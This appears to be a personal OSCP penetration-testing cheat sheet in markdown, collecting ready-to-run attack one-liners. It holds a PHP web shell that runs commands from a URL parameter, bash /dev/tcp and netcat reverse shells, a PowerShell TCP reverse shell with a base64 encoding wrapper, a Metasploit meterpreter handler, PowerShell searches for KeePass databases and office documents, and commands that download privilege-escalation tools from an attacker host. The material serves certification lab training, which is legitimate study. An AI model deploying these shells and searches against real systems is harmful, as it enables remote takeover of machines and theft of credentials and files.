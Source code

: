 - SSH connection to OSCP machines
```
ssh -o "UserKnownHostsFile=/dev/null" -o "StrictHostKeyChecking=no" learner@192.168.50.52
```
- Bash One-Liners
```
	for ip in $(cat list.txt); do host $ip.megacorpone.com; done
```
- SecLists Project - collection of wordlists
- PHP command execution
```
<?php echo system($_GET['cmd']); ?>
```
- One liner reverse shell
```
bash -i >& /dev/tcp/192.168.119.3/4444 0>&1

bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"

bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F4444%200%3E%261%22


rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.118.2 1234 >/tmp/f

```

- powershell one liner reverse shell

```
$client = New-Object System.Net.Sockets.TCPClient('192.168.45.230',4444);$stream =$client.GetStream();[byte[]]$bytes = 0..65535|%{0}while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex '. { $data } 2>&' | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
![[rev.ps1]]

Base64 encoding for powershell
```
$MyBase6 = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('$client = New-Object System.Net.Sockets.TCPClient("192.168.45.186",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String ); $sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()' ))

$Bytes=[Convert]::FromBase64String($Text)
[System.Text.Encoding]::Unicode.GetString($Bytes)
```

msfconsole 

```
msfconsole -x "use exploit/multi/handler;set payload windows/meterpreter/reverse_tcp;set LHOST 192.168.50.1;set LPORT 443;run;"

```
find using powershell

Get-ChildItem -Path C:\ -Include \*.kdbx -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path C: -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue

download powershell

```
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
iwr -uri http://192.168.45.204:9090/Seatbelt.exe -Outfile seat.exe
```

